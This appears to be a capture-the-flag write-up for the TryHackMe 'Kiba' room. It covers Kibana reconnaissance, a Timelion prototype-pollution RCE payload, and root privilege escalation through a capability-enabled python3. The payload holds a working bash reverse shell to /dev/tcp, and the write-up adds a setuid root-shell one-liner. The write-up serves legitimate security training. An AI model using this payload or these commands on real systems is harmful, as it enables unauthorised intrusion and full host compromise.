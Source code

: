 # TryHackMe kiba [room](https://tryhackme.com/room/kiba) writeup.


Nmap scan (consider that the machine took for me about 5 minutes to fully boot):

>nmap -p- -Sc [target-ip]


While we wait for nmap to finish let's check the default port 80:

![port80](port80.png)

Nothing interesting, just one hint "linux capabilities" we'll need them later to privesc.

![nmap](nmap.png)

Nmap shows us multiple ports but the vulnerable one is 5601, let's check it.
Right now we need to find the kibana version, after exploring the website a bit we can see the version in "management" tab.

![version](version.png)

With that information we go right into google: after a little bit of research we can find out that Kibana versions before 5.6.15 and 6.6.1 contain an RCE, and in order to exploit that we need to use timelion with a payload and setup a netcat listener.

![version](timelion.png)

Payload that i've used:

>.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

Don't forget to change the ip and set the port you listen on.
After that press "run" button and click on "canvas" tab.

It actually took me a lot of tries before catching a shell, so if you don't catch it just re-do the same method with a different payload.

The payloads and a more detailed [explanation](https://github.com/mpgn/CVE-2019-7609).

And we're in.

![version](user.png)

Now we need to escalate. The questions N5-6 provides us a hint, "linux capabilities", in order to search those we can just type:

>getcap -r /

or even better:

>getcap -r / 2>/dev/null

![version](getcap.png)

Well... as we can see there's one ".hackmeplease" folder so i guess we'll check that... We can see that we have all needed permission on that file, and it's also owned by root! Exploiting it is easy, we'll use that file to spawn a shell as root by using python:

>./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![privesc](privesc.png)

For any questions reach me through THM's dicord.
